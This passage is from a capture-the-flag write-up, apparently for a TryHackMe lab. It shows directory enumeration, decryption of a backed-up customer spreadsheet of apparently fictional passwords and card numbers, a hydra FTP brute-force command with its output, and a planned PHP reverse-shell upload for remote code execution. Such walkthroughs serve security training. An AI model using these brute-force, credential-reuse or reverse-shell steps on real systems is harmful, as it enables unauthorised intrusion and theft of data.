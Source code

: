 ```
/backups              (Status: 301) [Size: 235] [--> http://10.10.4.129/backups/]
/cgi-bin/             (Status: 403) [Size: 217]
```

There is a backups page, in there we can find a backup.zip file.
The zip is easily extracted (not password protected). In it we find:
- A PGP private key
- An excel file CUstomerDetails.xlsx.gpg

## Decrypt the xlsx

- According to [this doc](https://www.gnupg.org/gph/en/manual/x110.html) it can be decrypted in one command but first we need to import the private key with `pgp --import priv.key`
- And then we can decrypt the file:
```
┌──(root💀kali)-[~/Documents/tryhackme/overpass3/backup]
└─# gpg --output CustomerDetails.xlsx --decrypt CustomerDetails.xlsx.gpg
```
- Once decrypted the file can be opened with libre office (if you do not have Microsoft Excel like me ;) )
- And we get this
```
Customer Name	Username	Password	Credit card number	CVC
Par. A. Doxx	paradox	ShibesAreGreat123	4111 1111 4555 1142	432
0day Montgomery	0day	OllieIsTheBestDog	5555 3412 4444 1115	642
Muir Land	muirlandoracle	A11D0gsAreAw3s0me	5103 2219 1119 9245	737
```

So we have usernames and passwords:
- paradox	ShibesAreGreat123
- 0day	OllieIsTheBestDog
- muirlandoracle	A11D0gsAreAw3s0me

We can put them both in separate files for later use

## FTP

- Let's see if we can use those to connect through ftp. (note: I tried with ssh but password authentication is not supported)
- Using hydra we have a hit!
```
┌──(root💀kali)-[~/Documents/tryhackme/overpass3]
└─# hydra -L users -P pass 10.10.4.129 -t 4 ftp                                                                                                                                                          255 ⨯
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-30 18:17:40
[DATA] max 4 tasks per 1 server, overall 4 tasks, 9 login tries (l:3/p:3), ~3 tries per task
[DATA] attacking ftp://10.10.4.129:21/
[21][ftp] host: 10.10.4.129   login: paradox   password: ShibesAreGreat123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-03-30 18:17:48
```
- So we can connext to the ftp using the creds paradox:ShibesAreGreat123
- It seems like this the ftp used to serve the website. We have write permission so we can try to get rce this way.
- As it is apache we can try to use a php reverse shell. Lets take the one from [pentestmonkey](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
- We modify the IP address and port as we wish
